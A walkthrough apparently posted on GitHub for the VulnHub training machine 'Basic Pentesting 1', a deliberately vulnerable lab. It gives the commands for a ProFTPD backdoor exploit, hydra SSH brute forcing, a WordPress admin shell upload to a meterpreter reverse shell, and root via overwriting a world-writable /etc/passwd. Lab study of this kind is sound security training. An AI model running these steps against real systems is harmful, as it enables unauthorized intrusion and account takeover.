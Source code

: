 <h1 align="center">
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
</h1>

## Port Scanning
```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

## Open Ports
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)


## Exploiting port 21 ProFTPD 1.3.3c 
```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
--------------Hoorah--We--are--in--------------------
-------------------EXPLOITED-------------------------
```

## User enumeration
We had found that the users are marlinspike and root from previous ftp exploit.

## Bruteforcing into port 22 (SSH) using hydra trying default credentials
```bash
$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

Password Found for user(marlinspike):
[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike
```

## Privilege Escalation
> find / -type f -perm -u=s 2>/dev/null

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc1.png)


After researching, we find that the user(marlinspike) can use all the commands.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc0.png)

Now, let's try abusing binary `sudo su` and enter password of the user `marlinspike` and boy we are in :V

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)


## Directory Enumeration for port 80 (http-server)

> gobuster dir -u <target_url> -w <path-to-wordlist> 


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Directory-Enum.png)

We found /secret directory. Let's check in the browser.
We can see a wordpress blog running on the the server.


We can see that the webpage is not properly loading. 
So let's add the vtcsec into our /etc/hosts file and check how the webpage looks afterward.

![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/Hosts.png)

![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/Wordpress.png)



Now, let's go to wp-admin as it is the admin panel for wordpress sites and
try default login credentials i.e admin/admn we're in.
If the default credentials wouldn't have worked we probably would have needed to
bruteforce into the admin panel via burpsuite intruder or hydra or by using
any bruteforcing tools you prefer.

Now, let's try to gain access with wordpress exploit via metasploit.
```bash
$ msfconsole
$ search wp_admin
$ use exploit/unix/webapp/wp_admin_shell_upload

set every options that is needed for the exploit.
```

We can see that we got ourselves a meterpreter session.
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/reverse_shell.png)

## Privilege Escalation
To check for any potential misconfigurations that could lead to privilege escalation, a good script to use is the unix-privesc-check script from [pentestmonkey](https://github.compentestmonkey/unix-privesc-check)


This can be uploaded from the meterpreter session by running the following command:
> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check


After we upload the file to the server we then can execute the file:
```bash
$ shell
$ cd /tmp
$ chmod +x unix-privesc-check
```


The author of unix-privesc-check recommends to grep the output for WARNING, which will show any potential misconfigurations. This can be run as one single command:
> ./unix-privesc-check standard | grep WARNING


We can see `WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd` after executing the unix-privesc-check.

This means that we can write into the /etc/passwd file. So, let's download the file into our host machine by getting back into our meterpreter shell and executing:
> download /etc/passwd <path-where-to-save>


Now, from a local terminal, we can use openssl to generate a new hashed password:
> openssl passwd -1 lol

We get our hashed password i.e `$1$X5FkPmLQ$h0yILWHDiUeWUeezpmWU20`
	Now, open the passwd file we downloaded before and replace x after root like:
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/Hashed.png)

Now, all we need to do is upload the modified passwd file from our host to target server
	using:
> upload <path-where-you-saved> /etc/passwd

To make the shell interactive:
> python -c 'import pty; pty.spawn("/bin/bash")'

Finally, we can switch to root's account. 
```bash
$ su root
Password: lol
```
![](https://github.com/ninchy0/vulnhub-writups/blob/main/Basic_pentesting1/images/final-root-access.png)


<p style="text-align: right;"><a href="https://github.com/ninchy0">ninchy0</a></p>